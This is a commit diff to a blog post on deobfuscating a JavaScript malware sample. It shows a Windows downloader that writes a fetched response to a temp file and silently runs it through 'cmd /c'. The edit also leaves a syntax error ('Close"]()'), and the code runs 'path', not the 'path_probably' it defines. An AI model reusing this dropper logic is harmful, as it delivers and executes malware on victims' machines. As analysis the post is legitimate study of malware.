

Before and after one commit to benediktkr/benediktkr.github.io, a Jekyll site: the page built from _posts/2016-05-26-js-deobfs.md, in a window 1280 px wide and 900 px high, scrolled down 3161 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
instancename dot methodname and no brackets in last example

```diff
--- a/_posts/2016-05-26-js-deobfs.md
+++ b/_posts/2016-05-26-js-deobfs.md
@@ -125,20 +125,19 @@
     }
 
     var fsobj = new ActiveXObject("Scripting.FileSystemObject");
-	if (activex_object["Status"] == 200) {
+	if (activex_object.Status == 200) {
         var adodb_stream = new ActiveXObject("ADODB.Stream");
-        var path_probably = fsobj["GetSpecialFolder"](2) + '\\' + fsobj["GetTempName"]();
-        adodb_stream["Open"]();
-        adodb_stream["Type"] = 1;
+        var path_probably = fsobj.GetSpecialFolder(2) + '\\' + fsobj.GetTempName();
+        adodb_stream.Open();
+        adodb_stream.Type = 1;
         var wscript_shell = new ActiveXObject("WScript.Shell");
-        var response_body = activex_object["ResponseBody"];
-        adodb_stream["Write"](response_body);
+        adodb_stream.Write(activex_object.ResponseBody);
 
-        adodb_stream["Position"] = 0;
-        adodb_stream["SaveToFile"](path_probably);
+        adodb_stream.Position = 0;
+        adodb_stream.SaveToFile(path_probably);
 
-        adodb_stream["Close"]();
-        wscript_shell["run"]("cmd /c " + path, 0);
+        adodb_stream.Close"]();
+        wscript_shell.run("cmd /c " + path, 0);
     }
     GMU(fsobj, scriptfullname);
 }
```
